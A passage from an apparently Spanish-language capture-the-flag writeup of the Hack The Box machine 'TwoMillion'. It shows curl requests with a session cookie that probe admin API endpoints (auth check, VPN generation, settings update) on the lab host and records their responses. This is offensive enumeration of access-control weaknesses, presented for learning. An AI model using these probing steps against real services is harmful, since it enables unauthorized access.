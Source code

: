 Si probamos a ver que nos devuelve el navegador al entrar a la ruta de admin.

```bash
❯ curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=5a2jtf8ii4cqbc8m7097kj74n0" | jq
{
  "message": false
}
```

Por tanto entiendo que no soy admin. Voy a intentar generar una vpn para un usuario por POST.
```bash
❯ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=5a2jtf8ii4cqbc8m7097kj74n0" -v | jq
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.221
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.7.1
> Accept: */*
> Cookie: PHPSESSID=5a2jtf8ii4cqbc8m7097kj74n0
> 
* Request completely sent off
< HTTP/1.1 401 Unauthorized
< Server: nginx
< Date: Mon, 10 Jun 2024 19:43:10 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
{ [5 bytes data]
* Connection #0 to host 2million.htb left intact
```
Nos dice unauthorized. Voy a probar el endpoint de cambiar las características de un usuario

```bash
❯ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=5a2jtf8ii4cqbc8m7097kj74n0" | jq
{
  "status": "danger",
  "message": "Invalid content type."
}
```
<i>También podemos ver el mensaje pasando por nuestro proxy usando Burpsuite y ver que nos devuelve la respuesta, que es lo mismo que hemos hecho con curl.<i>
![](/assets/images/htb-writeup-twomillion/9.png)
